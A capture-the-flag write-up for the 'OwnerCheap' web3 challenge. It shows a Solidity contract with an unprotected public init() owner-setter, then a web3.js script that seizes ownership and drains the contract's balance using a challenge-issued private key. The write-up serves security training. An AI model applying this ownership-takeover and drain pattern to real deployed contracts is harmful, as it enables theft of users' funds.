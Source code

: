 # OwnerCheap - web3

## Challenge

We get one challenge contract and its address, and want to get all value of it out of the contract. We also receive a account (including private key) on the chain which we can use to sign transactions.

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.1;
contract Challenge {

	bool setup = false;
	address payable owner = payable(address(0x0));
	mapping(address => bool) public sameAddress;
	
	constructor() payable {
		if( sameAddress[address(0x0)] ) {
			init(); 
		}
	}

	modifier onlyOwner {
		require(msg.sender == owner);
		_;
	}
	
	function init() public {
		if( setup == false){ 
			setup = true;
			owner = payable(msg.sender);
		}
	}
	
	function withdrawAll() public onlyOwner {
		owner.transfer(address(this).balance);
	}
	
	function destroy() public onlyOwner {
		selfdestruct(owner);
	}
}
```

## Solution

as the mapping is intialized to 0, the init() function is not called in the constructor. So you can just call this function yourself, overwrite the owner and drain the contract. Example script can be found below.


```
const Web3 = require('web3');
const abi = require('./abi.json');

const privateKey = '0xedbc6d1a8360d0c02d4063cdd0a23b55c469c90d3cfbc2c88a015f9dd92d22b3';
const account = '0x133756e1688E475c401d1569565e8E16E65B1337';
const contractAddress = '0x874f54e755ec1e2a9ea083bd6d9c89148cea34d4';
const recipientAddress = '0x133756e1688E475c401d1569565e8E16E65B1337';
const rpcUrl = 'https://ownercheap.insomnihack.ch:32792';

const web3 = new Web3(rpcUrl);
const contract = new web3.eth.Contract(abi, contractAddress);

async function init() {
const nonce = await web3.eth.getTransactionCount(account);
const gasPrice = await web3.eth.getGasPrice();

const functionAbi = contract.methods.init().encodeABI();

const txParams = {
to: contractAddress,
data: functionAbi,
gasPrice: gasPrice,
gas: 100000, // Add the gas parameter with a value of your choice
nonce: nonce
};

const signedTx = await web3.eth.accounts.signTransaction(txParams, privateKey);
const txReceipt = await web3.eth.sendSignedTransaction(signedTx.rawTransaction);
console.log(`Transaction Hash: ${txReceipt.transactionHash}`);
}

async function withdrawAll(recipient) {
const nonce = await web3.eth.getTransactionCount(account);
const gasPrice = await web3.eth.getGasPrice();

const functionAbi = contract.methods.withdrawAll().encodeABI();

const txParams = {
to: contractAddress,
data: functionAbi,
gasPrice: gasPrice,
gas: 100000, // Add the gas parameter with a value of your choice
nonce: nonce
};

const signedTx = await web3.eth.accounts.signTransaction(txParams, privateKey);
const txReceipt = await web3.eth.sendSignedTransaction(signedTx.rawTransaction);
console.log(`Transaction Hash: ${txReceipt.transactionHash}`);
}

async function initAndWithdrawAll(recipient) {
await init();
await withdrawAll(recipient);
}

initAndWithdrawAll(recipientAddress);

```

Just run this script and get the flag.